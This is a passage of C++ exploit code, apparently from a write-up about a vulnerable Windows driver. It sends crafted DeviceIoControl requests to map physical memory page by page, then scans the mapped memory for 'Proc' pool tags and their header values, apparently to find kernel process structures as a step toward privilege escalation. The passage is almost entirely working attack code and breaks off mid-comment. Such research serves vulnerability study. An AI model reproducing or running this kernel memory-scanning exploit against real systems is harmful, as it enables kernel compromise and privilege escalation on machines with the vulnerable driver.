 ```cpp

    string hex_output = pretty_hex((int)output_buff);
    cout << "[>] Output buffer allocated at: " << hex_output << ".\n";

    DWORD bytes_returned = 0;

    PROC_DATA proc_data;

    // failures == unsucessful DeviceIoControl calls
    int failures = 0;

    // How many legitamate "Proc" chunks we've found in memory as in
    // we've confirmed they have headers.
    int proc_count = 0;
    int iteration = 0;
    cout << "[>] Going fishing for 100 \"Proc\" chunks in RAM...\n\n";
    while (proc_count < 100)
    {
        DWORDLONG num_of_bytes = 0x1000;
        DWORDLONG padding = 0x4141414141414141;
        INT64 start_address = START_ADDRESS + (0x1000 * iteration);

        INPUT_BUFFER input_buff = { start_address, num_of_bytes, padding };

        if (input_buff.start_address > MAX_ADDRESS)
        {
            cout << "[!] Max address reached!\n";
            cout << "[!] Iterations: " << dec << iteration << "\n";
            exit(1);
        }
        if (DeviceIoControl(
            device_handle,
            IOCTL,
            &input_buff,
            sizeof(input_buff),
            output_buff,
            sizeof(output_buff),
            &bytes_returned,
            NULL))
        {
            // The virtual address in our process space where RAM was mapped
            // is located in the first 8 bytes of our output_buff.
            INT64 mapped_address = *(PINT64)output_buff;

            // We will read a 32 bit value at offset i + 0x100 at some point
            // when looking for 0x00B80003, so we can't iterate any further
            // than offset 0xF00 here or we'll get an access violation.
            for (INT64 i = 0; i < (0xF10); i = i + 0x10)
            {
                INT64 test_address = mapped_address + i;
                INT32 test_value = *(PINT32)(test_address + 0x4);
                if (test_value == 0x636f7250)   // "Proc"
                {
                    for (INT64 x = 0; x < (0x100); x = x + 0x10)
                    {
                        INT64 header_address = test_address + x;
                        INT32 header_value = *(PINT32)header_address;
                        if (header_value == 0x00B80003) //  "Header" ending
                        {
                            // We found a "header", this is a legit "Proc"
                            proc_count++;

                            // This is the literal physical mem addr for the
```